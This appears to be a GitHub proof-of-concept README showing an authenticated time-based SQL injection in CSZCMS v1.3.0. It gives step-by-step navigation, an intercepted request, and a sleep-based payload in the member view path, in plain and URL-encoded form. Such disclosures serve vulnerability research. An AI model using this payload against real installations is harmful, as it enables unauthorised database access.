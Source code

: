 # CSZCMS-v1.3.0---SQL-Injection-Authenticated-
CSZCMS v1.3.0  SQL Injection (Authenticated)

# 1 - Log in to the admin portal

http://localhost/cszcms/admin/login

# 2 - Navigate to General Menu > Member Users.

# 3 Click the 'View' button next to any username.

# 4 Intercept the request
```
GET /cszcms/admin/members/view/1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: 86112035d26bb3c291899278f9ab4fb2_cszsess=n5v1jcdqfjuuo32ng66e4rttg65ugdss
Upgrade-Insecure-Requests: 1
```


# 5 Modify the paramter 

/cszcms/admin/members/view/1

to 

/cszcms/admin/members/view/'or(sleep(10))#

and url encode all characters

/cszcms/admin/members/view/%27%6f%72%28%73%6c%65%65%70%28%31%30%29%29%23%20


# Отказ от ответственности:

Информация о проблемах безопасности (CVE), распространяемая здесь, предоставляется "как есть". Мы не несем ответственности за последствия ее использования. Пожалуйста, будьте осторожны и проконсультируйтесь с соответствующими специалистами перед действиями.


# Disclaimer:

The security vulnerability information (CVE) shared here is provided "as is". We do not accept responsibility for any consequences resulting from its use. Please exercise caution and consult with appropriate experts before taking action.
